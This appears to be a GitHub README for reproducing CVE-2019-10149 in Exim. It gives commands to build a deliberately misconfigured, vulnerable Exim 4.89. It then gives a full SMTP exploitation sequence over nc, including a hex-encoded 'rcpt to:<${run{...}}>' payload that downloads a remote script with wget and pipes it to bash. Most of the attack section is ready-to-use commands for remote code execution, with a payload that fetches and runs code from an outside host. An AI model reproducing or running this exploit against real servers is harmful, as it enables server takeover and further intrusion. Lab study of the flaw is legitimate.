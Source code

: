 # CVE-2019-10149
Instructions for installing a vulnerable version of Exim and its expluatation

# CVE-2019-10149 - Exim 4.87 < 4.91
Tested on Linux Ubuntu 16.04, Exim 4.89

## Exim installation
Download and extract exim version 4.89
>wget https://github.com/Exim/exim/releases/download/exim-4_89/exim-4.89.tar.xz && tar -xvf exim-4.89.tar.xz

Move into the extracted folder
	cd exim-4.89/

Copy and modify required config files
	sed -e 's,^EXIM_USER.*$,EXIM_USER=exim,' Local/Makefile src/EDITME > Local/Makefile
	cp exim_monitor/EDITME Local/eximon.conf

Create exim user and group
	sudo groupadd -g 31 exim 
	sudo useradd -d /dev/null -c "Exim Daemon" -g exim -s /bin/false -u 31 exim

Install dependencies
	sudo apt-get update
	sudo apt-get install -y make build-essential libpcre3-dev libdb-dev libxt-dev libxaw7-dev

Install exim 4.89
	sudo make install

Edit /usr/exim/configure to allow relaying so we can exploit without waiting 7 days
	sudo sed -iz 's/domainlist relay_to_domains =/domainlist relay_to_domains = */' /usr/exim/configure
	sudo sed -i '/hostlist   relay_from_hosts = localhost/c\hostlist   relay_from_hosts = 0.0.0.0' /usr/exim/configure
	sudo sed -i '/require verify = recipient/c\#require verify = recipient' /usr/exim/configure

Run exim as user exim
	sudo -H -u exim /usr/exim/bin/exim -bd -d-receive    
	
## Crafting the exploit
Convert your shell command to hex
	/bin/sh -c “wget https://raw.githubusercontent.com/darsigovrustam/CVE-2019-10149/master/RemoteConnection.sh" -O - | bash
	\x2Fbin\x2Fsh\t-c\t\x22wget\t\https\x3A\x2F\x2Fraw\x2Egithubusercontent\x2Ecom\x2Fdarsigovrustam\x2FCVE\x2D2019\x2D10149\x2Fmaster\x2FRemoteConnection\x2Esh\t-O\t-\t\x7C\tbash\x22\
	
Table for example
	\t-c\ = -c
	\t\= space
	x20 = space
	x7C = |
	x2F = /
	x3A = :
	x2D = -
	x3E = >
	x26 = &
	x22 = "
	x2E = .
	
## Exploit usage
First we use nc to start a connection to the server.
	nc 192.168.0.168 25
 
Once we are connected we say HELO.
	helo localhost
	(Answer: 250 exim Hello localhost [192.168.0.168])

Next, we set the sender address to blank.
	mail from:<>
	(Answer: 250 OK)

Then we set out recipient address with the payload we made earlier by inserting our desired command where the ellipses is rcpt to:<${run{...}}@localhost>.
	rcpt to:<${run{\x2Fbin\x2Fsh\t-c\t\x22wget\t\https\x3A\x2F\x2Fglitchwitch\x2Eio\x2Fpayload\t-O\t-\t\x7C\tbash\x22\}}@localhost>	
	(Answer: 250 Accepted)

And finally We first type DATA, followed by 31 lines, a blank line, and a period.
	DATA
	Received: 1
	Received: 2
	Received: 3
	Received: 4
	Received: 5
	Received: 6
	Received: 7
	Received: 8
	Received: 9
	Received: 10
	Received: 11
	Received: 12
	Received: 13
	Received: 14
	Received: 15
	Received: 16
	Received: 17
	Received: 18
	Received: 19
	Received: 20
	Received: 21
	Received: 22
	Received: 23
	Received: 24
	Received: 25
	Received: 26
	Received: 27
	Received: 28
	Received: 29
	Received: 30
	Received: 31

	.
